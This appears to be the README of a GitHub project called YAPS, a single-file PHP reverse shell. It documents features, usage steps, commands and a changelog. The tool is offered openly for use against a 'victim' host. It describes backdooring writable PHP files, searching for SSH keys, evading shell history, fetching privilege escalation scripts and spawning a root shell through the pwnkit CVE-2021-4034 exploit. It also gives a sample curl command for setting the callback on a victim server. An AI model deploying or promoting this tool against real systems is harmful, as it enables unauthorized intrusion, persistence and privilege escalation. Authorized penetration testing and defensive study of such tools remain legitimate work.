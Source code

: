 # YAPS - **Y**et **A**nother **P**HP **S**hell

Yes, as the name reveals, this is yet another PHP reverse shell, one more among hundreds available out there, but with some advantages. It is a single PHP file containing all its functions and you can control it via a simple TCP listener (e.g. `nc -lp 1337`).

In the current version (1.4), its main functions support only linux systems, but i'm planning to make it work with Windows too.

It's currently in its first version and I haven't tested it much yet, and *there are still many things I intend to do and improve for the next versions (**it's not done yet!**)*, so please let me know if you've found any bugs or have some suggestion for feature or improvement. =)


## Features
* Single PHP file (no need to install packages, libs, or download tons of files)
* Works with netcat, ncat, socat, multi/handler, almost any listener
* Customizable password protection
* No logs in .bash_history
* Does some enumeration
  * Network info (interfaces, iptables rules, active ports)
  * User info
  * List SUID and GUID files
  *  Search for SSH keys (public and private)
  *  List crontab
  *  List writable PHP files
* Auto download LinPEAS, LinEnum or Linux Exploit Suggester
* Write and run PHP code on remote host
* (Semi) Stabilize shell
* Duplicate connections
* Auto update
* Infect PHP files with backdoors
* **[NEW] Auto reverse root shell via pwnkit (CVE-2021-4034)**

## Cons
* Connection isn't encrypted (yet) (nc does not support SSL)
* Not fully interactive (although you can spawn an interactive shell with `!stabilize`)
  * CTRL+C breaks it; can't use arrows to navigate (unless you use `rlwrap nc -lp <ip> <port>`)

## Usage
1. Set up a TCP listener;
2. Set your IP and port. This can be done by:
* 2.1 Editing the variables at the start of the script;
* 2.2 Setting them via post request (`curl -x POST -d "x=ip:port" victim.com/yaps.php`);
3. Open yaps.php on browser, curl it or run via CLI;
* 3.1 You can set `yaps.php?s` or `yaps.php?silent` to supress the banner
* 3.2 You can run via CLI with `php yaps.php ip port`
5. Hack!

## Working commands
* `!help - Display the help menu`
* `!all-colors - Toggle all colors (compatible with colorless TTY)`
* `!color - Toggle PS1 color (locally only, no environment variable is changed)`
* `!duplicate - Spawn another YAPS connection`
* `!enum - Download LinPEAS and LinEnum to /tmp and get them ready to use`
* `!info - list informations about the target (the enumeration I mentioned above)`
* `!infect - Infect writable PHP files with backdoors`
* `!stabilize - Spawn an interactive reverse shell on another port (works w/ sudo, su, mysql, etc.)`
* `!passwd - Password option (enable, disable, set, modify)`
* `!php - Write and run PHP on the remote host`
* `!suggester - Download Linux Exploit Suggester to /tmp and get it ready to use`
* `!pwnkit - Tries to exploit CVE-2021-4034 and spawn a root revere shell`

## Screenshots

<details>
  <summary>Click to expand screenshots section</summary>

### Current commands:
![image](https://user-images.githubusercontent.com/3837916/152596714-f852a58a-8e19-4869-915a-94316099c6e6.png)

### Some recon:
![image](https://user-images.githubusercontent.com/3837916/127257433-778b1322-c82e-4857-897f-0f3f459dcb2b.png)

### Root reverse shell through CVE-2021-4034
![pwn](https://user-images.githubusercontent.com/3837916/152597200-267704b9-0d50-4bcd-a68f-3c8ea6c74c21.gif)

### Spawning a interactive shell
![stabilize](https://user-images.githubusercontent.com/3837916/127260504-3e78ab69-c3ee-411e-8a7d-f89fe5356a7f.gif)

### Duplicating a YAPS session
![duplicate](https://user-images.githubusercontent.com/3837916/127260519-e672a78e-84c5-4a58-aa39-85dae94d9a50.gif)

### Poisoning PHP files
![infect](https://user-images.githubusercontent.com/3837916/127263363-e286357c-2be0-4890-8895-4bd5adadd3af.gif)

### Writing remote PHP code
![remotephp](https://user-images.githubusercontent.com/3837916/124774830-7dedab80-df14-11eb-9e84-c8d88b9f4de2.png)

### Password protected shell
![passprotected](https://user-images.githubusercontent.com/3837916/127260459-cc50203d-3ba6-408b-af0f-820756e9891d.png)

</details>


## Changelog

**v1.4 - 04/02/2022**
- Added `!pwnkit` to exploit CVE-2021-4034 and spawn a root reverse shell
- Improved `verify_update()` function
- Minor improvements

**v1.3.1 - 01/08/2021**
- Bugs fixed

**v1.3 - 28/07/2021**
- Added `!infect` to infect PHP files with backdoors
- Changed `!stabilize` payload (bugs fixed)

**v1.2.2 - 18/07/2021**
- Changed 'update' function
- Changed 'connect' function
- Improved 'download' function
- Bugs fixed

**v1.2.1 - 17/07/2021**
- Bugs fixed

**v1.2 - 17/07/2021**
- Added `!duplicate` to spawn another shell
- Added update verification (`--update|-u`)
- Added CLI arguments (`--help|-h`)
- Added socket via arguments (`php yaps.php ip port`)
- Changed stabilize shell method (doesn't freeze anymore)
- Changed download method
- Changed connection method via POST (receives a single parameter)

**v1.1 - 12/07/2021**
- Added `!all-colors` to toggle terminal colors and work with colorless TTYs
- Added `exit` command to close socket (leave shell)
- Changed payload in `!stabilize` to unset HISTSIZE and HISTFILE
- Changed the method of obtaining CPU and meminfo in `!info` 

**v1.0.1 - 08/07/2021**
- Changed `[x,y,z]` to `array(x,y,z)` to improve compatibility with older PHP versions
- Changed payload for interactive shell to work with PHP<5.4

## Credits
Some ideas were inspired by this tools:

#### Linpeas
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

#### Linenum
https://github.com/rebootuser/LinEnum

#### Suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

#### Pentest Monkey
https://github.com/pentestmonkey/php-reverse-shell

####  Arthepsy exploit for pwnkit
https://github.com/arthepsy/CVE-2021-4034/
